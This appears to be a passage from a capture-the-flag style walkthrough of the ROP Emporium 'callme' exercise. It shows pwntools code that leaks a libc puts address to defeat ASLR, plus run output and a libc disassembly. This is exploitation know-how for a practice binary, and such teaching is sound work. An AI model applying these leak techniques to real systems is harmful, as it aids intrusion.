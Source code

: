 Because x86-64 is a little endian instruction set, all numbers are placed least significant byte first. This means, essentially, that all numbers are sitting backwards in memory. Therefore, `puts` starts from the last byte and reads forward, and stops when it encounters a null byte, which is the two leading bytes in this address. The reason why it didn't stop at the very first byte (which is null here) is because we're printing out the offset of `puts` from this address, so that byte is guaranteed to be non-null.

Also, as it turns out, Linux ASLR loads all shared objects from address `0x00007fxxxxxxxxxx`. This means we can simply read in the six bytes and pad them with two null bytes, to get our 8 byte address.

Great. Now let's just throw out some code to unpack our bytes into an integer.

```python
conn.recvuntil(b"Thank you!\n")
# bit of a hack but it worked
puts_addr = u64(conn.recv(6) + b'\x00\x00')
print("[*] received libc_puts address %s" % hex(puts_addr))
```

Running it, we get:

```text
$ python shell.py

[*] '/home/sammy/Projects/binexp/ropemporium/3-callme/callme'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    RUNPATH:  b'.'
[+] Starting local process '/home/sammy/Projects/binexp/ropemporium/3-callme/callme': pid 39511
[*] received libc_puts address 0x7ffff7a715a0
[*] Stopped process '/home/sammy/Projects/binexp/ropemporium/3-callme/callme' (pid 39511)
```

Nice, we have our `puts` address. Now we just need to get its offset. And for this, we will be examining our very own `libc`.

On my machine, the `libc` shared object being used is `/usr/lib/libc.so.6`. Let's load it up in Cutter (this will take a while), and once it's loaded, search for the function with `sym.puts`:

```text
int puts (const char *s);
; var int64_t var_ch @ rsp+0xc
; arg const char *s @ rdi
0x0007b5a0      f30f1efa               endbr64
0x0007b5a4      4156                   push    r14
0x0007b5a6      4155                   push    r13
0x0007b5a8      4154                   push    r12
0x0007b5aa      4989fc                 mov     r12, rdi ; s
0x0007b5ad      55                     push    rbp
0x0007b5ae      53                     push    rbx
0x0007b5af      4883ec10               sub     rsp, 0x10
...
```
